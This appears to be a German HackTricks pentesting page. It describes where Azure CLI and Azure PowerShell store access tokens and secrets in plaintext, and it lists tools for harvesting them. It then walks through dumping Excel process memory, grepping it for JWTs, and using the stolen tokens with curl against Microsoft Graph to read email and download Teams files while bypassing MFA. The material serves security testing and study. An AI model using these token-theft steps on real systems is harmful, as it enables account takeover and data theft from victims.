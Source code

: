 # Az - Lokale Cloud-Anmeldeinformationen

{{#include ../../../banners/hacktricks-training.md}}

## Lokale Token-Speicherung und Sicherheitsüberlegungen

### Azure CLI (Befehlszeilenschnittstelle)

Tokens und sensible Daten werden lokal von Azure CLI gespeichert, was Sicherheitsbedenken aufwirft:

1. **Zugriffstoken**: Im Klartext in `accessTokens.json` gespeichert, das sich unter `C:\Users\<username>\.Azure` befindet.
2. **Abonnementinformationen**: `azureProfile.json`, im selben Verzeichnis, enthält Abonnementdetails.
3. **Protokolldateien**: Der Ordner `ErrorRecords` innerhalb von `.azure` könnte Protokolle mit exponierten Anmeldeinformationen enthalten, wie z.B.:
- Ausgeführte Befehle mit eingebetteten Anmeldeinformationen.
- URLs, die mit Tokens aufgerufen wurden, was potenziell sensible Informationen offenbaren könnte.

### Azure PowerShell

Azure PowerShell speichert ebenfalls Tokens und sensible Daten, die lokal abgerufen werden können:

1. **Zugriffstoken**: `TokenCache.dat`, das sich unter `C:\Users\<username>\.Azure` befindet, speichert Zugriffstoken im Klartext.
2. **Secrets des Dienstprinzipals**: Diese werden unverschlüsselt in `AzureRmContext.json` gespeichert.
3. **Token-Speicherfunktion**: Benutzer haben die Möglichkeit, Tokens mit dem Befehl `Save-AzContext` zu speichern, was vorsichtig verwendet werden sollte, um unbefugten Zugriff zu verhindern.

### Automatische Tools, um sie zu finden

- [**Winpeas**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe)
- [**Get-AzurePasswords.ps1**](https://github.com/NetSPI/MicroBurst/blob/master/AzureRM/Get-AzurePasswords.ps1)

## Tokens im Speicher

Wie in [**diesem Video**](https://www.youtube.com/watch?v=OHKZkXC4Duw) erklärt, könnte einige Microsoft-Software, die mit der Cloud synchronisiert ist (Excel, Teams...), **Zugriffstoken im Klartext im Speicher speichern**. Das bloße **Dumpen** des **Speichers** des Prozesses und **Greppen nach JWT-Tokens** könnte Ihnen Zugriff auf mehrere Ressourcen des Opfers in der Cloud gewähren und MFA umgehen.

Schritte:

1. Dumpen Sie die Excel-Prozesse, die mit dem EntraID-Benutzer synchronisiert sind, mit Ihrem bevorzugten Tool.
2. Führen Sie aus: `string excel.dmp | grep 'eyJ0'` und finden Sie mehrere Tokens in der Ausgabe.
3. Finden Sie die Tokens, die Sie am meisten interessieren, und führen Sie Tools über sie aus:
```bash
# Check the identity of the token
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/me | jq

# Check the email (you need a token authorized in login.microsoftonline.com)
curl -s -H "Authorization: Bearer <token>" https://outlook.office.com/api/v2.0/me/messages | jq

# Download a file from Teams
## You need a token that can access graph.microsoft.com
## Then, find the <site_id> inside the memory and call
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/sites/<site_id>/drives | jq

## Then, list one drive
curl -s -H "Authorization: Bearer <token>" 'https://graph.microsoft.com/v1.0/sites/<site_id>/drives/<drive_id>' | jq

## Finally, download a file from that drive:
curl -o <filename_output> -L -H "Authorization: Bearer <token>" '<@microsoft.graph.downloadUrl>'
```
**Beachten Sie, dass diese Art von Zugriffstoken auch in anderen Prozessen gefunden werden kann.**

{{#include ../../../banners/hacktricks-training.md}}
